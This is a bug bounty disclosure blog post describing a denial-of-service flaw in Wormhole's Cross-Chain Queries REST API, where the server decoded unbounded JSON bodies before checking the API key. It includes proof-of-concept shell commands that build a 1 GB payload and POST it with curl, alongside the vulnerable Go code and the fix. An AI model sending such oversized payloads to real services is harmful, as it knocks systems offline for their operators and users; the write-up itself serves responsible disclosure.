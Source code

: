 ```yaml
---
weight: 1
title: "Taking down Wormhole's CCQ service through REST API"
date: 2023-10-24
tags: ["Wormhole", "CCQ", "DoS", "immunefi"]
draft: false
author: "fadam"
authorLink: "https://blog.fadam.xyz/"
description: "Taking down Wormhole's CCQ service through REST API."
images: []
categories: ["Web2"]
lightgallery: true
resources:
  - name: "featured-image-preview"
    src: "templatewormhole.png"

toc:
  auto: false
---
```


<!--more-->

## 1. Introduction

As part of my Bug Bounty journey, I like to monitor my favorite programs on Github. Checking their latest Pull Requests/commits allow me to know what they are working on, and to get an insight of where security issues could arise. \
In this article, I will describe how I was able to find an issue within a new product (CCQ) of Wormhole. \
Because I was monitoring the project closely, I found the issue soon after it was pushed on the main branch, and before it was pushed on the Guardians nodes. \
The following sections are taken from the Immunefi report. I would like to thank the Wormhole's team for allowing me to post and for their professionalism.

## 2. Bug Description

The tests were performed on the commit: [6c3ff43d6a416abce680e77ce81a9f613ba27075](https://github.com/wormhole-foundation/wormhole/commit/6c3ff43d6a416abce680e77ce81a9f613ba27075) \
Wormhole has implemented a new feature: [Cross-Chain Queries](https://github.com/wormhole-foundation/wormhole/blob/main/whitepapers/0013_ccq.md) which includes a REST API :

> a separate REST server is being provided to accept off-chain query requests

Also the feature is designed to work off-chain only (p2p, API) in the initial deployment:

> The initial release of CCQ will not support on chain requests.

There are two issues regarding the REST API.
The function handleQuery() within [http.go](https://github.com/wormhole-foundation/wormhole/blob/6c3ff43d6a416abce680e77ce81a9f613ba27075/node/cmd/ccq/http.go#L40) :

1. Checks authentication **after** decoding the payload:

```golang
var q queryRequest
err := json.NewDecoder(r.Body).Decode(&q)
(...)
apiKey, exists := r.Header["X-Api-Key"]
if !exists || len(apiKey) != 1 {
	s.logger.Debug("received a request without an api key", zap.Stringer("url", r.URL), zap.Error(err))
	http.Error(w, "api key is missing", http.StatusBadRequest)
	return
}
```

2. Does **not limit the size** of the POST payload.

In consequence, an attacker can craft an arbitrary curl request containing 1Gb of hexadecimal payload.
This will cause the server to decode the body for a very long time, leading to very high increase in RAM, and increase of CPU.
On my testbed, it led to container restarting due to lack of resources.

## 3. POC

First of all, we need to recreate a little Wormhole environment with Tilt.

```bash
git clone https://github.com/wormhole-foundation/wormhole/
cd wormhole
make node
minikube start --cpus=8 --memory=24G --disk-size=100G --driver=docker
tilt up
```

Then we need to modify the Tilt file so we can access the CCQ feature, please refer to the following [Tilt file](https://gist.github.com/0xfadam/4ba10f032d3d2530f5f28556285248a6)

To create the 1 Gb payload that will crash the service :

```bash
echo -ne '{"data" : "' >> json_payload.json
dd if=/dev/urandom bs=1M count=1024| xxd -p -c 1024 >> json_payload.json
echo -ne '"}' >> json_payload.json
tr -d "\n" <  json_payload.json > final_payload.json
rm  json_payload.json
```

To perform the attack :

```bash
curl -X POST -H "Content-Type: application/json" -T final_payload.json http://guardian:8996/v1/query
```

A video PoC (with 2 videos) demonstrates the impact:

1. https://drive.google.com/file/d/1vvzbUr-ucuVWthf7K57eiiHGFoqf9x-O/view?usp=sharing
2. https://drive.google.com/file/d/1vwDj27H4Y97vbOMvzJVzKxgdbz08mNzz/view?usp=sharing

The PoC is running on a I7 server (16CPU) + 32 Gb RAM, and only one curl is used. \
On the second video, at 5.22, the server reaches maximum RAM and container restarts.

Only 2/3 requests were used. The purpose of using a small amount of requests was to demonstrate that the issue was not **network-related** , but **application-related**.

## 4. Recommendation

1. The first part of the fix is to check the authentication before processing the JSON payload.

```golang
	// There should be one and only one API key in the header.
	apiKeys, exists := r.Header["X-Api-Key"]
(...)
	var q queryRequest
	err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
	if err != nil {
		s.logger.Debug("failed to decode body", zap.Error(err))
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
```

2. Additionnally, a control over the payload size is now performed, ensuring it does not exceed 5Mb.

```golang
const MAX_BODY_SIZE = 5 * 1024 * 1024
(...)
err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
```

## 5. Wormhole response

CCQ service exists outside of the Guardians, on different servers. \
This is by design to ensure minimal running services are on the node that contains the guardian signing and identity (p2p) keys. \
Therefore, impacting CCQ could have not caused a Denial of Service on the Guardians. \
Also, it is expected that Guardians operators will protect the CCQ feature behind a reverse-proxy and other security equipments.

With that being said, Wormhole has been very proactive and has fixed the issue **on the same day** of the report, through the [PR 3443](https://github.com/wormhole-foundation/wormhole/pull/3443).
